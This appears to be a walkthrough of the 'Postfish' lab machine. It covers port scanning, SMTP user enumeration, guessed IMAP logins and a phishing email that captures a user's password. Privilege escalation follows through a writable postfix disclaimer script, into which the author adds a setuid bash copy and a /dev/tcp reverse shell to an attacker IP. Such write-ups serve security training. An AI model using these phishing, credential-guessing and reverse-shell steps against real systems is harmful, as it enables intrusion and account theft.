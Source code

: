 # Postfish

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.183.137
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 14:08 +08
Nmap scan report for 192.168.183.137
Host is up (0.17s latency).
Not shown: 65528 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
110/tcp open  pop3
143/tcp open  imap
993/tcp open  imaps
995/tcp open  pop3s
```

This box involves testing mail services. We have to add `postfish.off` to our `/etc/hosts` file to view the website on port 80.&#x20;

### Web Enumeration

The website looked rather static:

<figure><img src="../../../.gitbook/assets/image (2903).png" alt=""><figcaption></figcaption></figure>

There was a 'Team' page, and when viewed we get some names and roles:

<figure><img src="../../../.gitbook/assets/image (491).png" alt=""><figcaption></figcaption></figure>

Interesting.

### SMTP Enumeration -> Phishing Link

The website had nothing else to offer, so I went looking for exploits pertaining to the mail servers. I tested some usernames and departments like HR, and found HR existed on the server:

```
$ smtp-user-enum -M VRFY -u HR -t 192.168.183.137
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Target count ............. 1
Username count ........... 1
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Wed Jul 12 14:15:41 2023 #########
192.168.183.137: HR exists
```

I tried some low hanging fruits, like logging in with `hr:hr` and `postfish:postfish`. Eventually, `sales:sales` worked on IMAP:

{% code overflow="wrap" %}
```
$ nc -nv 192.168.183.137 143
(UNKNOWN) [192.168.183.137] 143 (imap2) open
* OK [CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE LITERAL+ STARTTLS AUTH=PLAIN] Dovecot (Ubuntu) ready.
A1 LOGIN sales sales
A1 OK [CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE SORT SORT=DISPLAY THREAD=REFERENCES THREAD=REFS THREAD=ORDEREDSUBJECT MULTIAPPEND URL-PARTIAL CATENATE UNSELECT CHILDREN NAMESPACE UIDPLUS LIST-EXTENDED I18NLEVEL=1 CONDSTORE QRESYNC ESEARCH ESORT SEARCHRES WITHIN CONTEXT=SEARCH LIST-STATUS BINARY MOVE SNIPPET=FUZZY PREVIEW=FUZZY LITERAL+ NOTIFY SPECIAL-USE] Logged in
```
{% endcode %}

I was able to find one message present within the Inbox:

```
A1 STATUS INBOX (MESSAGES UNSEEN RECENT)
* STATUS INBOX (MESSAGES 1 RECENT 1 UNSEEN 1)
A1 OK Status completed (0.001 + 0.000 secs).
```

We can read this message:

{% code overflow="wrap" %}
```
A1 SELECT INBOX
A1 FETCH 1 body[text]
* 1 FETCH (FLAGS (\Seen \Recent) BODY[TEXT] {153}
Hi Sales team,

We will be sending out password reset links in the upcoming week so that we can get you registered on the ERP system.

Regards,
IT
)
A1 OK Fetch completed (0.001 + 0.000 secs).
```
{% endcode %}

So there's some password reset links being sent out, and perhaps we can trick a user into clicking on our link. I used `swaks` to send an email to send emails:

{% code overflow="wrap" %}
```bash
$ swaks --to SALES@postfish.off --from IT@postfish.off --header "Subject:Password Reset" --body "Click here to reset your password! http://192.168.45.208/password" --server 192.168.183.137
```
{% endcode %}

The above doesn't work, so I used 'Brian Moore', which is the name of the user part of the Sales team based on the website. There are tons of username generators online based on a name:

```bash
$ python2 username.py -n 'brian moore' > usernames
$ sed -i s/$/@postfish.off/ usernames
```

Afterwards, we can test which user is present on the server:

```
$ smtp-user-enum -M VRFY -U usernames -t 192.168.183.137
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... usernames
Target count ............. 1
Username count ........... 93
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Wed Jul 12 14:31:35 2023 #########
192.168.183.137: @postfish.off exists
192.168.183.137: brian.moore@postfish.off exists
######## Scan completed at Wed Jul 12 14:31:49 2023 #########
```

`brian.moore` exists, so let's send an email to him and start a listener port to see if he clicks on our link. `swaks` doesn't seem to work for some reason, so we can just use `nc`:

```
$ nc -vn 192.168.183.137 25

MAIL FROM: IT@postfish.off
RCPT TO: brian.moore@postfish.off
DATA

Hello, 

Reset password here. http://192.168.45.208/

.

QUIT
```

After the mail sends, we get a callback on our listener port with creds:

<figure><img src="../../../.gitbook/assets/image (3586).png" alt=""><figcaption></figcaption></figure>

We can use this password to `ssh` in as `brian.moore`:

<figure><img src="../../../.gitbook/assets/image (3844).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Mail Disclaimer -> Filter Shell

I ran a `linpeas.sh` scan on the machine, and it found this interesting folder:

```
[+] Readable files belonging to root and readable by me but not world readable
-rwxrwx--- 1 root filter 1184 Jul 12 06:42 /etc/postfix/disclaimer
```

It was a `bash` script:

```bash
brian.moore@postfish:~$ cat /etc/postfix/disclaimer
#!/bin/bash
# Localize these.
INSPECT_DIR=/var/spool/filter
SENDMAIL=/usr/sbin/sendmail

####### Changed From Original Script #######
DISCLAIMER_ADDRESSES=/etc/postfix/disclaimer_addresses
####### Changed From Original Script END #######

# Exit codes from <sysexits.h>
EX_TEMPFAIL=75
EX_UNAVAILABLE=69

# Clean up when done or when aborting.
trap "rm -f in.$$" 0 1 2 3 15

# Start processing.
cd $INSPECT_DIR || { echo $INSPECT_DIR does not exist; exit
$EX_TEMPFAIL; }

cat >in.$$ || { echo Cannot save mail to file; exit $EX_TEMPFAIL; }

####### Changed From Original Script #######
# obtain From address
from_address=`grep -m 1 "From:" in.$$ | cut -d "<" -f 2 | cut -d ">" -f 1`

if [ `grep -wi ^${from_address}$ ${DISCLAIMER_ADDRESSES}` ]; then
  /usr/bin/altermime --input=in.$$ \
                   --disclaimer=/etc/postfix/disclaimer.txt \
                   --disclaimer-html=/etc/postfix/disclaimer.txt \
                   --xheader="X-Copyrighted-Material: Please visit http://www.company.com/privacy.htm" || \
                    { echo Message content rejected; exit $EX_UNAVAILABLE; }
fi
####### Changed From Original Script END #######

$SENDMAIL "$@" <in.$$

exit $?
```

Users part of the `filter` group can write to this, and `brian.moore` is part of that group. I added this to the script:

```bash
cp /bin/bash /tmp
chmod u+s /tmp/bash
bash -i >& /dev/tcp/192.168.45.208/21 0>&1
```

This script is triggered by sending emails, so we can send another one to the machine without the phishing link to get another reverse shell:

<figure><img src="../../../.gitbook/assets/image (2120).png" alt=""><figcaption></figcaption></figure>

### Sudo Mail -> Root

This new user can execute `mail` using `sudo`:

```
filter@postfish:/var/spool/postfix$ sudo -l
Matching Defaults entries for filter on postfish:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User filter may run the following commands on postfish:
    (ALL) NOPASSWD: /usr/bin/mail *
```

We can get a `root` shell using the commands from GTFOBins:

<figure><img src="../../../.gitbook/assets/image (1536).png" alt=""><figcaption></figcaption></figure>
